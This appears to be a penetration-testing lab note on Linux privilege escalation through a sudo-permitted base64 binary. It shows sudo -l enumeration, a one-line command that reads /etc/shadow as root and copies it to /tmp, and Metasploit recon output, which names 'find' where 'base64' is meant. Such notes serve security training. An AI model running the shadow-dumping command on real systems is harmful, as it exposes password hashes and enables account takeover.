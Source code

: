 # Base64

## Living off the Land

### Enumerate

```
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/base64
```

### Exploit

#### Harvest Credentials

```
user@debian:~$ sudo base64 /etc/shadow | base64 -d > /tmp/shadow
```

## Metasploit

### Enumerate

```
meterpreter > run post/multi/recon/sudo_commands

[+] /usr/bin/find matches known privesc executable 'base64' !

Sudo Commands
=============

  Command            RunAsUsers  RunAsGroups  Password?  Privesc?
  -------            ----------  -----------  ---------  --------
  /usr/bin/base64    root                                True

[+] Output stored in: /root/.msf4/loot/20220523174649_default_10.10.140.168_sudo.commands_049317.txt
```